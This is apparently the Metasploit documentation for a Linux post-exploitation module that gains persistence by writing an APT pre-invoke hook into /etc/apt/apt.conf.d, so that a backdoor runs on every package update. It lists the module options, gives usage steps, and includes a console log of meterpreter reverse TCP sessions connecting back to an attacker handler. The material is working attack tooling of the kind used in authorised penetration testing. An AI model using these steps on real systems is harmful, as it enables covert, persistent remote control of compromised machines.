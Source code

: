 ## Description

This module will run a payload when the package manager is used. No
handler is ran automatically so you must configure an appropriate
exploit/multi/handler to connect. This module creates a pre-invoke hook
for APT in apt.conf.d. The hook name syntax is numeric followed by text.

## Verification Steps

1. Exploit a box that uses APT
2. `use linux/local/apt_package_manager_persistence`
3. `set SESSION <id>`
4. `set PAYLOAD cmd/unix/reverse_python` configure the payload as needed
5. `exploit`

When the system runs apt-get update the payload will launch.  You must set handler accordingly.

## Options

**BACKDOOR_NAME**

Name of backdoor executable

**HOOKNAME**

Name of pre-invoke hook to be installed in /etc/apt/apt.conf.d/. Pre-invoke hook name syntax is numeric followed by text.

**WritableDir**

Writable directory for backdoor default is (/usr/local/bin/)

## Scenarios

### Tested on Ubuntu 18.04.2 LTS

```
msf > use exploit/linux/local/apt_package_manager_persistence
msf exploit(linux/local/apt_package_manager_persistence) > handler -p linux/x86/meterpreter/reverse_tcp -H 172.22.222.136 -P 4444
[*] Payload handler running as background job 0.
msf exploit(linux/local/apt_package_manager_persistence) > 
[*] Started reverse TCP handler on 172.22.222.136:4444 
[*] Sending stage (985320 bytes) to 172.22.222.130
[*] Meterpreter session 1 opened (172.22.222.136:4444 -> 172.22.222.130:60526) at 2019-04-26 13:04:33 -0500

msf exploit(linux/local/apt_package_manager_persistence) > set session 1
session => 1
msf exploit(linux/local/apt_package_manager_persistence) > set payload linux/x86/meterpreter/reverse_tcp 
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(linux/local/apt_package_manager_persistence) > set lhost 172.22.222.136 
lhost => 172.22.222.136
msf exploit(linux/local/apt_package_manager_persistence) > set lport 4444
lport => 4444
msf exploit(linux/local/apt_package_manager_persistence) > exploit

[*] Attempting to write hook:
[*] Wrote /etc/apt/apt.conf.d/34bmUIzfd
[*] Backdoor uploaded /usr/local/bin/dbmqKeh6U9
[*] Backdoor will run on next APT update
msf exploit(linux/local/apt_package_manager_persistence) > 
[*] Sending stage (985320 bytes) to 172.22.222.130
[*] Meterpreter session 2 opened (172.22.222.136:4444 -> 172.22.222.130:60528) at 2019-04-26 13:05:17 -0500

msf exploit(linux/local/apt_package_manager_persistence) >
```

Note: Second session comes in after running `apt update` on the remote host
